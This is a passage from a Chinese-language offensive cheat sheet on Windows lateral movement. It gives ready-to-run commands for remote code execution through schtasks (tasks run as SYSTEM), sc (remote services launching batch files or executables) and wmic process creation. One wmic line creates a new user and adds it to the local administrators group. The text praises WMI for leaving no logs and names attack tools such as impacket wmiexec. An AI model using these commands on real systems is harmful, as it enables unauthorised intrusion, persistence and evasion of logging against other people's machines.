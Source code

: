 #### schtasks(用户权限和系统权限都可以)

```dos
schtasks /create /tn asp_net /tr "c:\windows\system32\cmd.exe /c cmd" /sc once /st 00:00 /S ip /RU System /u user /p password

schtasks /run /tn asp_net /S ip /u user /p password

schtasks /F /delete /tn asp_net /S ip /u user /p password
```

#### sc

##### 系统权限的sc用法

利用服务工具，指定**用户权限启动**

在`192.130.16.22`上创建一个xxoox的服务，程序执行命令为`cmd.exe /c start c:\programdata\a+.bat`

```
sc \\192.130.16.22 create xxoox binPath= "cmd.exe /c start c:\programdata\a+.bat"
```

执行xxoox的服务，执行成功可能会提示错误1053，不宜作为启动项，一般用用户权限也是临时的：

```
sc \\192.130.16.22 start xxoox

sc \\192.130.16.22 delete xxoox
```

##### 指定用户权限启动的用法

在`192.130.16.22`上指定`administrator`账户创建一个`adminsec`服务：

```
sc \\192.130.16.22 create adminsec binpath = “c:\pass.exe” obj= “adminsec\administrator” passwrod= adminsec

sc \\192.130.16.22 start adminsec
```

#### wmic

WMI 的全称是 Windows Management Instrumentation，它出现在所有的 Windows 操作系统中，由一组强大的工具集合组成，用于1. 管理本地或远程的 Windows 系统。当攻击者使用wmiexec来进行攻击时，Windows系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。越来越多的APT事件中也出现了WMI攻击的影子，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执行、权限持久化等操作。(奇淫技巧可见[wmi shell](http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf))

常见的WMI攻击工具：

- `PTH-WMIS (最早wmi攻击的工具，单条命令执行，无回显，需要pth-smbget配合读取结果)`
- `impackets wmiexec(Linux跨window经常用)`
- `wmiexec.vbs (国人制造 为了回显会写文件)`
- `Invoke-WmiCommand&Invoke-PowerShellWmi`

```
#在远程系统上执行 bat 脚本
wmic /node:192.168.17.138 /user:test /password:!@#123QWE process call create c:\programdata\test.bat

###在远程系统上执行单条命令
wmic /node:192.168.17.138 /user:test /password:!@#123QWE process call create "cmd.exe /c net user test1 !@#123QWE /add && net localgroup administrators test1 /add

#在远程系统上运行exe文件
C:\Users\DC>wmic /node:192.168.200.20 /user:web\administrator /password:Web12345
 process call create "cmd.exe /c calc.exe"
```
